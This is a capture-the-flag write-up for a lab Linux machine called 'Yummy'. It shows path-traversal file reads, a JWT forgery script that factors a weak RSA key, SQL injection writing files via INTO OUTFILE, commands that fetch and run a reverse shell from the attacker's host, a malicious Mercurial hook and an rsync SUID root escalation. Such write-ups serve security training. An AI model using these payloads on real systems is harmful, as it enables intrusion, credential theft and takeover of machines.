Yummy is a hard difficulty Linux machine that challenges players with a mix of SQL injection, misconfigured file privileges, and version control exploitation.
The initial foothold involves exploiting an SQL injection vulnerability to achieve arbitrary file write. From there, lateral movement is achieved by leveraging writable scripts and abusing Mercurial hooks.
Privilege escalation is accomplished through rsync misconfigurations, ultimately leading to root access.
The box tests knowledge of database exploitation, unintended file writes, and privilege escalation through common misconfigurations

## Local file inclusion

Initial nmap scan reveals only 2 ports open, SSH on port 22 and HTTP on port 80. Pretty straightforward.



The first thing Im going to check is the website on port 80.


We're greeted with what seems like a nice restaurant website. We can register/login, as well as book a table.



The "Book a Table" section catches my interest, so I'll go ahead and create an user in order to check it out. I'll fill in the fields with bogus data, throwing in some HTML in order to check for Cross-Site Scripting possibility.

The reservation can be checked through the dashboard button. It seems like XSS wont be viable here, since the HTML code was displayed as text and did not convert.


It looks like we can download our reservation details via the "Save iCalendar" button. Lets see how this process looks like with burp suite.

```
GET /export/Yummy_reservation_20250221_025105.ics HTTP/1.1
Host: yummy.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://yummy.htb/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: X-AUTH-Token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAbWFpbC5jb20iLCJyb2xlIjoiY3VzdG9tZXJfYWVhYzFmOTIiLCJpYXQiOjE3NDAxMDQ0NjQsImV4cCI6MTc0MDEwODA2NCwiandrIjp7Imt0eSI6IlJTQSIsIm4iOiI5OTkwMDc5Njc2NTEzMjY3NTU2MTA4NTEyODM3MTAwMDk0MzU4MDE4MjE1OTM3OTI0MTUyMzYzNjQyOTUyMDYxMDg2OTcyNDU3NjU3NDI0NTY3ODAzNzM1NjYyNDg1Mzc5NTQ4MjQ2NDgwODgwNzIyNzk5MDI5MTI4MzM0MzA0NjY5MTAxMDg0NDYzODU3Mzc1NTQ4MTAwNTgxNTUwMTcxMDgwNDkzOTIzMDQ4Mzc3MDM2NTYyMTgyNDk4Mzk0MjM3Mzk5NjMxODU3NDU5OTU5NDY0OTgwODU1NDE4NTgyNTY4NTgyNzU1MTIzOTIzNzg5NDMyNDk0MTUwMDEyNDIxMjcxMTI3MDUwMTYxMjg0MDMyNDAwNTc3Mjg2Mjc5MTY0ODE4NTQ5MTI0MDkyMTkxNTMyNzk5MTAyNyIsImUiOjY1NTM3fX0.AyEms2pwIfxil81ciyOrakzgnNlx1a5dgVlj8oZQqBzeNs7skjqR9uZ5ushC54WMScYYoebcHIQSyZOSZ83CEae-YMYuO7j7iUInq9ZYuNguhK4ApPj_bVcu_ZNSUoIrHmWqSJrypDzTMoBsLelTxDSxkVnjm-HMG62wrnEM6rHiDoA; session=eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIlJlc2VydmF0aW9uIGRvd25sb2FkZWQgc3VjY2Vzc2Z1bGx5Il19XX0.Z7fqGQ.IvFJEGEcqZDG5iJ8I0HC1S49bhI
Connection: keep-alive
```
There is an export parameter with a plain file name. I'll check whether local file inclusion is possible by replacing the filename with '../../../../etc/passwd'



LFI confirmed! With this, I'll investigate and see what other interesting files I can find.



The crontab file reveals three very interesting files. I'll download them the same way as before.

app_backup.sh:

```
#!/bin/bash

cd /var/www
/usr/bin/rm backupapp.zip
/usr/bin/zip -r backupapp.zip /opt/app
```

table_cleanup.sh:

```
#!/bin/sh

/usr/bin/mysql -h localhost -u chef yummy_db -p'3wDo7gSRZIwIHRxZ!' < /data/scripts/sqlappointments.sql
```
dbmonitor.sh:

```
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi

[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```

There are plaintext database credentials for the user chef, as well as an additional .zip file.

First however, lets focus on the dbmonitor.sh file.

If there is a way to write into the dbstatus.json file and create a malicious 'fixer-v' file, It would be possible to achieve remote code execution and get a reverse shell.

I'll keep that in mind. Lets go back to the .zip file from the app_backup.sh file.

## JWT forgery

Inside the config directory, I found a script that generates an RSA key pair and leaks the large integer e.

```
#!/usr/bin/python3

from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy


# Generate RSA key pair
q = sympy.randprime(2**19, 2**20)
n = sympy.randprime(2**1023, 2**1024) * q
e = 65537
p = n // q
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()
```

This pushed me to think that, if the JWT token I've gotten after logging into the website was also exposing integers, then I'd be able to forge an administrator JWT token and impersonate them.



It does indeed! I'll use this to forge an administrator JWT token!

```
import base64

import json

import jwt

from Crypto.PublicKey import RSA

from cryptography.hazmat.backends import default_backend

from cryptography.hazmat.primitives import serialization

import sympy

 

token = ""

 
js = json.loads(base64.b64decode( token.split(".")[1] + "===").decode())

n= int(js["jwk"]['n'])

p,q= list((sympy.factorint(n)).keys())

e=65537

phi_n = (p-1)*(q-1)

d = pow(e, -1, phi_n)

key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}

key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))

private_key_bytes = key.export_key()

 

private_key = serialization.load_pem_private_key(

    private_key_bytes,

    password=None,

    backend=default_backend()

)

public_key = private_key.public_key()

 

data = jwt.decode(token,  public_key, algorithms=["RS256"] )

data["role"] = "administrator"

 


new_token = jwt.encode(data, private_key, algorithm="RS256")

print(new_token)

```

The script extracts the public key parameters (n and e) from the JWT, factors n to recover the private key, and then forges a new JWT signed with the recovered key to give myself an admin role on the website.



## SQL injection

After some meddling with the search function and some url manipulation, I've discovered that there is an exploitable SQL injection vulnerability.

```
http://yummy.htb/admindashboard?s=%27%27%27SELECT+*&o=ASC;SELECT%20*%20FROM%20

```




Further research led me to the "Secure_file_priv" privilege, which was disabled for my database user.



With this, writing to files on the machine is possible and I'll do just that.

Recalling what I've learned from the 3 crontab files, I should be able to get a reverse shell if:

1. A dbstatus.json file exists and it doesnt contain the "database is down" string;
2. Im able to create a file named "fixer-v" with malicious content inside.

Lets get to it!

```

aa&o=ASC%3b+select+"TEST"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b

aa&o=ASC%3b+select+"curl+10.10.16.6:8000/rev.sh+|bash%3b"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b

I put those into the url, right after the "?s=" string
```

After an ungodly amount of troubleshooting these two queries, I got a shell as the mysql user!




## Mysql to www-data

If I remember correctly, the app_backup.sh script is executed as the user www-data. If I swap that file with a reverse shell, I should be able to get a shell as the www-data user.

```
cd ../../../../data/scripts

wget http://x.x.x.x/rev.sh

mv app_backup.sh blank && mv rev.sh app_backup.sh

```



It worked! the shell hit my listener almost immediately.



## www-data to qa

Browsing through the landing folder as www-shell, there is an app-qatesting folder, which does not bring me anything new...

However, I looked through the folder once again, this time with the -la flag in order to see hidden files.

```
ls -la app-qatesting

```

Bingo! There is an additional directory called .hg. Now, I have never seen a file with such a name before, so I went forward and researched a little.

My research had brought me to Mercurial. A version control program very similar to git, which uses .hg files! I'll keep that in mind. For now I'll keep looking through the .hg directory.

In the directory app-qatesting/.hg/store/data, there was an app.py.i file. Inside that file, I found the credentials for user qa.



With these credentials, we can ssh into the box and claim the user flag!



## Privilege escalation


Wtih an SSH session as the user qa, I can proceed with privilege escalation.



With this command, I can pull a repository from /opt/app/app-production/ as the dev user.

The first thing that popped into my mind was whether mercurial had a hook functionality like git. Brief research confirmed that this was indeed the case.

https://wiki.mercurial-scm.org/Hook

I'll try poisoning qa's .hgrc config file with a malicious hook, which will attempt to execute a reverse shell located at /tmp/rev.sh.

After downloading the reverse shell, I put it into the /tmp directory, so that its easily accessible.

```
cd /tmp; mkdir .hg; chmod 777 .hg; cp ~/.hgrc .hg/hgrc

```

I copied the .hgrc config file of qa into /tmp/.hg/hgrc.



Adding the malicious hook. Now I should be able to execute the sudo command and, ideally, get a reverse shell as dev!

```
sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```



Success!

## Dev to root



The user dev can use rsync to back files from /home/dev/app-production to /opt/app, with the -a flag to preserve file rights.

I'll try to copy a SUID binary, and make it executable as root.

```
cp /bin/bash app-production/bash
chmod u+s app-production/bash
sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/
/opt/app/bash -p
```

Im trying to copy bash to the app-production folder. I use chmod u+s to make this bash copy run as its owner and by providing the --chown root:root flag, I effectively set root as the owner of the new bash within /opt/app.

Finally, I'll execute the root bash and hopefully, gain a root shell!

I had trouble with running the commands one by one. I fixed it by chaining them together and executing them immediately one after another.

```
cp /bin/bash app-production/bash && chmod u+s app-production/bash && sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/ && /opt/app/bash -p
```



Rooted!
